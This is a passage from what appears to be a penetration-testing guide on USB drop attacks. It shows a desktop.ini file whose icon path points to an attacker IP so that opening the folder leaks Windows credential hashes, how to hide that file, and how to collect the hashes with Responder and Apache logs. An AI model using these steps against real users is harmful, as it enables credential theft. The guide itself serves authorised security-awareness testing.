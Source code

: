 Example  
```
[.ShellClassInfo]
IconResource=\\1.2.3.4\Google?usb=LimeGreen.ico,0
```

- Set file to be a "system" file and to be hidden  
`attrib +s +h desktop.ini`  

Recieve Callbacks  

- Start web server on Kali  
`service apache2 start`  

If SMB isn’t allowed outbound you can look at the /var/log/apache2/access.log in Kali to view connections.  

Example entry:  
![USB Drop Callback](/assets/images/usb_drop_callback.jpg)  

- Start responder on the attacking machine and wait for credentials to come in  
`responder -I eth0`  
If SMB is allowed out of the network, you should see authentication attempts which contain hash information.  

Example Output:  
![Responder creds](/assets/images/usb_drop_responder.jpg)  

*HTML*  

User opens an HTML file that sends information to the attacking server and then redirected to another page that gives the user USB safety information.  

How it works  

The HTML page attempts to load an image file from the attacking server and is redirected to the US-CERT.  

- Pros
  - User only has to open a file, no macro enabling required
  - Teachable moment by redirecting to a site containing USB safety information
  - Some people aren't aware of what an HTML file is so it may not stick out to them
  - Use off the shelf USB’s, no HID’s
- Cons
  - User has to open a file
  - Knowledgeable users won't attempt to load the HTML or will look at the source and realize what it's doing
